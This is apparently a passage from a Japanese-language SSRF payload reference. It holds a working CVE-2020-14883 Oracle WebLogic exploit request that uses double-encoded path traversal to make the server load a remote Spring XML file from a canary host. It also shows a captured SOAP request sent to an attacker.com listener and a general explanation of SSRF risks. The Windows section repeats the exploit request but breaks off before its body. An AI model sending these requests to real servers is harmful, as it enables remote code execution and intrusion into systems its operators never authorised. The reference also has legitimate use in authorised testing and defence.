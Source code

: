 ```
Connection from example.com 43111 received!
POST /exp HTTP/1.11
X-CLRF: Injected HTTP/1.1
Content-Type: text/xml; charset=UTF-8
soapAction: ""
Content-Length: 418
User-Agent: Java1.6.0_24
Host: attacker.com:4000
Accept: text/html, image/gif, image/jpeg, */*; q=.2
Connection: Keep-Alive

<?xml version="1.0" encoding="UTF-8" standalone="yes"?><env:Envelope xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:env="http://schemas.xmlsoap.org/soap/envelope/" xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"><env:Header/><env:Body><find_business generic="2.0" xmlns="urn:uddi-org:api_v2"><name>sdf</name></find_business></env:Body></env:Envelope>
```
**SSRF Canary: CVE-2020-14883**

[ここ](https://forum.90sec.com/t/topic/1412)から引用。

Linux:
```http
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: vulnerablehost:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117

_nfpb=true&_pageLabel=&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://SSRF_CANARY/poc.xml")
```
Windows:

Windows プラットフォームでは、SSRF 脆弱性がさまざまな形式で存在します。以下にいくつかの一般的な例を示します。

1. ローカルホストへのアクセス: Windows マシンでは、ローカルホスト（127.0.0.1）へのアクセスが可能な場合があります。これにより、攻撃者は内部ネットワーク上の他のサービスにアクセスすることができます。

2. 内部ネットワークへのアクセス: Windows マシンが内部ネットワークに接続されている場合、攻撃者は内部ネットワーク上の他のサービスにアクセスすることができます。これにより、攻撃者は内部ネットワーク上の機密情報にアクセスすることができます。

3. ファイルシステムへのアクセス: SSRF 脆弱性を利用すると、攻撃者は Windows マシン上のファイルシステムにアクセスすることができます。これにより、攻撃者は機密情報を盗み出すことができます。

4. リモートコード実行: SSRF 脆弱性を利用すると、攻撃者はリモートコードを実行することができます。これにより、攻撃者は Windows マシン上で任意のコマンドを実行することができます。

これらの脆弱性を悪用すると、攻撃者は重要な情報を盗み出したり、システムを乗っ取ったりすることができます。したがって、Windows プラットフォームのセキュリティを強化するためには、SSRF 脆弱性に対する適切な対策を講じる必要があります。
```http
POST /console/css/%252e%252e%252fconsole.portal HTTP/1.1
Host: vulnerablehost:7001
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:43.0) Gecko/20100101 Firefox/43.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 117
```